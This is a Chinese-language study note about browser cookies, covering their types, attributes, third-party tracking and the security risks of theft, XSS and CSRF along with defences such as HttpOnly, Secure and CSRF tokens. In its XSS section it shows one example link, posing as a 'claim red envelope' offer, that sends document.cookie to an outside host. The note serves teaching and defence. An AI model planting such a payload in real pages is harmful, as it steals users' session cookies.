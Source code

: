 ```yaml
---
date: 2023-01-10
title: 对 cookie 的了解
tags:
  - 浏览器
---
```


- HTTP 连接是无状态的，所以网络请求需要一个标志来识别用户身份，cookie 就扮演这个角色。

- 客户端会记录服务器返回来的 Set-Cookie 首部中的 cookie 内容，存储在浏览器中，下次请求时，在 cooike 请求首部发出去

- cookie 类型：

    - 会话 cookie：在退出浏览器就被删除

    - 持久 cookie： 存储在硬盘里，维护一个配置文件或者登录信息。会设置一个特定的过期时间（Expires）或者有效期（Max-Age）

- cookie 的属性：

    - cookie 的域：产生 cookie 的服务器可以向 Set-Cookie 响应首部添加一个 Domain 属性来控制哪些站点可以看到该 cookie

    - cookie 的路径：Path 属性可以为服务器特定文档指定 cookie，带有这个前缀的 url 路径 才能有效

    - secure：设置了该属性，cookie 只有在 https 协议情况下才会发送给服务端

- 操作 cookie：

    - document.cookie 设置和获取

    - document.cookie 无法访问带有 HttpOnly 标记的 cookie，为了防止 XSS 攻击

- 第三方 cookie：

    - cookie 的域和浏览器地址的域匹配，被称为第一方 cookie，否则称为第三方

    - 一般被用在第三方广告网站，为了跟踪用户的浏览记录，收集用户浏览习惯，推送广告

- 安全：

    - 攻击者窃取用户的 cookie 冒充用户请求，拦截 cookie 执行恶意任务

        - 解决：服务器可以设置 secure 属性的 cookie，这样就只能通过 https 的方式来发送 cookies 了

    - 跨站脚本攻击 XSS：当网站允许使用 hs 操作 cookie 的时候，攻击者可以发布恶意代码攻击用户的会话，窃取 cookie 信息

        - 例如：<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包

        - 解决：可以通过 cookie 的 HttpOnly 属性，js 代码将不能操作 cookie。

    - 跨站请求伪造 CSRF：冒充用户发起请求，完成一些违背用户意愿的事情

        - 验证码；强制用户必须与应用进行交互，才能完成最终请求；

        - 尽量使用 post ，限制 get 使用；get 太容易被拿来做 csrf 攻击；

        - token 验证 CSRF 防御机制是公认最合适的方案